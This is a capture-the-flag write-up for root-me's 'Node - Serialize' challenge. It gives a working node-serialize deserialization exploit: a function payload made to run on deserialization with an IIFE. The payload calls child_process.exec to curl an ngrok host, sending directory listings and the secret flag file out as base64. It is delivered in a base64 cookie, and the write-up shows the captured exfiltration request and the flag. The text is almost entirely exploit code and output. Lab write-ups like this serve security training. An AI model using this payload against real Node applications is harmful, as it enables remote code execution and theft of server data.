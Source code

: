# root-me - Node - Serialize

```js
var profile = {
 userName : function(){
 require('child_process').exec('curl http://5249-1-55-197-127.ngrok.io?c=`ls -la / | base64`', function(error, stdout, stderr) { console.log(stdout) });
 },
 passWord : "hello",
}
var serialize = require('node-serialize');
console.log("Serialized: \n" + serialize.serialize(profile));
```

**serialize results**:
```json
{"userName":"_$$ND_FUNC$$_function(){\n require('child_process').exec('curl http://5249-1-55-197-127.ngrok.io', function(error, stdout, stderr) { console.log(stdout) });\n }","passWord":"hello"}
```

Later I figured out that we can use JavaScript’s Immediately invoked function expression (IIFE) for calling the function. If we use IIFE bracket ()after the function body, the function will get invoked when the object is created. It works similar to a Class constructor in C++.

But to prevent it get execute from our machine other than victim machine, we add it by hand and base64 encode it

**edited to get the flag**:
```json
{"userName":"_$$ND_FUNC$$_function(){\n require('child_process').exec('curl http://d657-1-55-197-127.ngrok.io?c=`cat flag/secret | base64`', function(error, stdout, stderr) { console.log(stdout) });\n }()","passWord":"hello"}
//					                                                      ^^
```


**base64 encoded**:
```
eyJ1c2VyTmFtZSI6Il8kJE5EX0ZVTkMkJF9mdW5jdGlvbigpe1xuIHJlcXVpcmUoJ2NoaWxkX3Byb2Nlc3MnKS5leGVjKCdjdXJsIGh0dHA6Ly9kNjU3LTEtNTUtMTk3LTEyNy5uZ3Jvay5pbz9jPWBjYXQgZmxhZy9zZWNyZXQgfCBiYXNlNjRgJywgZnVuY3Rpb24oZXJyb3IsIHN0ZG91dCwgc3RkZXJyKSB7IGNvbnNvbGUubG9nKHN0ZG91dCkgfSk7XG4gfSgpIiwicGFzc1dvcmQiOiJoZWxsbyJ9
```

And ....
```bash
curl 'http://challenge01.root-me.org:59067/' -H 'Cookie: profile=eyJ1c2VyTmFtZSI6Il8kJE5EX0ZVTkMkJF9mdW5jdGlvbigpe1xuIHJlcXVpcmUoJ2NoaWxkX3Byb2Nlc3MnKS5leGVjKCdjdXJsIGh0dHA6Ly9kNjU3LTEtNTUtMTk3LTEyNy5uZ3Jvay5pbz9jPWBjYXQgZmxhZy9zZWNyZXQgfCBiYXNlNjRgJywgZnVuY3Rpb24oZXJyb3IsIHN0ZG91dCwgc3RkZXJyKSB7IGNvbnNvbGUubG9nKHN0ZG91dCkgfSk7XG4gfSgpIiwicGFzc1dvcmQiOiJoZWxsbyJ9'
```

**captured request from ngrok**:
```
GET /?c=WTNwUzNyMGQzYzBtcDRuWTFzQjRkIQo= HTTP/1.1
Host: d657-1-55-197-127.ngrok.io
User-Agent: curl/7.68.0
Accept: */*
X-Forwarded-For: 2001:bc8:35b0:c166::151
X-Forwarded-Proto: http
Accept-Encoding: gzip
```

**flag**: `Y3pS3r0d3c0mp4nY1sB4d!`
